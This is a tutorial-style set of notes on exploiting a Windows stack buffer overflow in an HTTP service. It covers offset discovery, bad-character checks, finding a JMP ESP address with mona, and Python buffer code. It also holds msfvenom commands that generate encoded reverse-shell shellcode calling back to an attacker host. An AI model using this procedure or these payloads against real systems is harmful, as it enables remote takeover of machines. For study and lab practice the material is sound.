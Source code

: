 # Windows Buffer Overflows

In this example we target an application serving HTTP requests on port 80.

* Use SysInternals TCPview tool to identif process number listneing on port 80.
* Must open Immunity Debugger as administrator.
* File > Attach and attach the running process.
* This will pause program execution, resume it by pressing F9.
* Run the python fuzzer against the application.
* Watch for the overflow as EIP points to 41414141.
* Will crash the application - restart in services.

A fuzzer is eneration-based if it creates malformed application inputs from scratch, following things like file format or network protocol specifications.  
A mutation-based fuzzer changes existing inputs by using techniques like bit-flipping to create a malformed variant of the original input.  
A fuzzer that is aware of the application input format is a smart fuzzer.

### Controlling EIP

To get control of the EIP we need to know exactly where to write into it. Fastest way is to use a pattern and identify the offset in the EIP:  
```bash
locate pattern_create
msf-pattern_create -h

msf-pattern_create -l 800

# Update python script to use the generated payload.
# Crash the program with the payload.
# Note the EIP contents

# Find the offset with the hex in the EIP
msf-pattern_offset -l 800 -q 42306142

# Update the script to load to EIP:
  filler = "A" * 780
  eip = "B" * 4
  buffer = "C" * 16

  inputBuffer = filler + eip + buffer

# Retry and verify EIP contains BBBB.
```

### Shellcode Space

We need around 350-400 bytes of space for our shellcode. To find enough space we can increase the size of the buffer and see if it changes the crash:
```python
filler = "A" * 780
eip = "B" * 4
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))

inputBuffer = filler + eip + offset + buffer
```

We can then overflow again, and identify the last address minus the first address for DDDD to identify the available space.

### Check for Bad Characters

* Iterate using the python script for bad charaters.
* Right click on ESP and View in Dump. Look for the last character before it bombs out.
* Remove that character from the script and repeat.


### Finding a Return Address

* Attach program in Immunity.
* Run !mona modules
* Look for library with no protection flags including NXCompat (DEP protection).
* Look for library with no bad characters in address.  

If DEP is enabled, look for the address in the .text code segment.  

Find the opcode equivalent of JMP ESP:
```bash
msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > 
```

Search for JMP ESP using hex representation in the located library with `mona.py find`. Use `-s` for the escaped hex string, and `-m` for the required module name:  
`!mona find -s "\xff\xe4" -m "libspp.dll"`  

Note the resultant address and check for bad characters: 0x10090c83. We can then click on the 'go to address in dissasembler' button and enter the address. This should result in a JMP ESP instruction.  

The idea is to redirect EIP to this address at time of crash, and the JMP ESP instruction will execute and lead into the shellcode.

Enter the EIP variable to reflect the new address. Note the reversed order due to endianness. In little endian format the low-order byte of the number is stored in memory at the lowest address, and the high-order byte at the highest address. Therefore, we have to store the return address in reverse order in our buffer for the CPU to interpret it correctly in memory.

```python
eip = "\x83\x0c\x09\x10"
```

Use F2 to place a breakpoint at this address to see if it is reached. If reached, press F7 to step into the instruction and we should arrive at our dummy shellcode.

### Generating Shellcode with Metasploit

List the payloads:  
`msfvenom -l payloads`

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.149 LPORT=443 -f c`  
Works pretty easily to generate shellcode, except it will contain bad characters such as null bytes. A polymorphic encoder, shikata_ga_nai can be used to encode shellcode and inform the encoder of known bad characters with `-b`.  

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.149 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`  
(Some will require `-f raw` for a raw output format.)

We have to account for decoding the shellocde. GetPC routines looking ahead mangle some bytes of the decoder itself and crash the target process. Adjusting ESP backwards is another method, or creating a 'landing pad' for the JMP ESP to continue onto the payload. This is done by prepending No OPeration (NOP) instructions. This allows the CPU to slide through the NOPs until the payload is reached. In doing so, the stack pointer is far enough away foom the decoder that it does not corrupt the shellcode when the GetPC routine overwrites a few bytes on the stack.


### Improving the Shellcode

We can use the EXITFUNC=threat option to repeatedly exploit a server by only terminating the affected thread instead of the whole application:  
`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`















